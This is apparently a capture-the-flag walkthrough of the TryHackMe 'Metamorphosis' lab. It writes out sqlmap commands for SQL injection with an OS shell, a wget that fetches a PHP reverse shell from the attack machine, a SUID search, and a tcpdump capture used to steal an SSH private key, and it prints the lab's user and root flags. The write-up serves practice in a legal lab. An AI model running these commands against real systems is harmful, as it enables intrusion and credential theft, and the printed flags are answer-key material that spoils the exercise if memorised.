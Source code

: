 ```yaml
---
title: Metmorphosis
layout: post
author: Bit Criminals Team
date: 2021-07-23 20:00:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/metamorphosis
---
```



On enumerating we get the following five open ports.

![](/images/Mars/meta1.png)  
  
On running gobuster we get
  
![](/images/Mars/meta2.png)  
 
Opening http://[IP]/admin we found

![](/images/Mars/meta3.png)

Checking the source code we found

![](/images/Mars/meta4.png)

Clearly, we had to change the back-end configuration of the website to 'development' mode.

We then used the rsync service available at port 873

On enumerating the rsync service we found this

![](/images/Mars/meta5.png)

We then listed the contents of Conf as follows

![](/images/Mars/meta6.png)

We then brought all the files to our local attack machine as follows

![](/images/Mars/meta7.png)

Checking the contents of each file at random I found the file webapp.ini interesting

![](/images/Mars/meta8.png)

From the hint we found at the source code, we modified the webapp.ini file. We changed the value of 'env' variable from 'prod' to 'dev'

![](/images/Mars/meta9.png)

Then we reuploaded this modified file into the server as follows

![](/images/Mars/meta10.png)

On refreshing the webpage we found this

![](/images/Mars/meta11.png)

In the webapp.ini file we also found a username and password. on using that username here, we find that the password is 'thecat' (we already know)
But given the fact that there is only one input, the next thought was sqlinjection. Thus, we used sqlmap.

We ran the following command and found that the DBMS (Data Base Managament System) was run by mysql

```sqlmap -u http://[ip]/admin/config.php --data=username=tom --level=5 --risk=3```

Then to get the OS shell we ran the following command

```sqlmap -u http://[ip]/admin/config.php --data=username=tom --level=5 --risk=3 --os-shell```

After a long time, we finally got the shell

![](/images/Mars/meta14.png)

We then uploaded a php reverse shell. We uploaded the reverse shell via the http port of the attack machine
The following command was used in the attack machine
```python -m SimpleHTTPServer```
We then collected the payload on the other side using the command
```wget http://[ip of attack machine]:8000/reverse-shell.php```

We then loaded the url 'http://[box ip]/reverse-shell.php' with the suitable port to listen. Thus we got the shell. On simple navigation we found the user flag was

![](/images/Mars.meta13.png)

**4ce794a9d0019c1f684e07556821e0b0**


# Privelage escelation

We tried using the commad
```find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null```
But we didn't figure out how to escelate. So we downloaded linpeas.sh just like the reverse shell and then ran the script. But tihs time also we didn't get useful results. So we tried the 'pspy' script. From the results of this script we understnad that tcpdump was installed in the machine.

Thus we can only capture a packet. So we ran the pspy64 script and set up tcpdump to capture the packets.

For this we used the following command in one of the two separate terminals of the attack machine. Also note that all this was done in the /tmp folder so that things don't get messed up :)

```tcpdump -i lo -v -w capture.png```

By the time we got around 40 packets we stopped the capture. We then copied capture.pcap to the /var/www/html directory as the user is www-data. We then loaded the URL 'http://[box ip]/capture.pcap'. Thus, we could download the captured file.

We then opened the file using wireshark and followed the TCP stream. We found an RSA privet key

![](/images/Mars/meta15.png)

We logged in as root through ssh using this privet key. We became the root!

![](/images/Mars/meta16.png)

**7ffca2ec63534d165525bf37d91b4ff4**
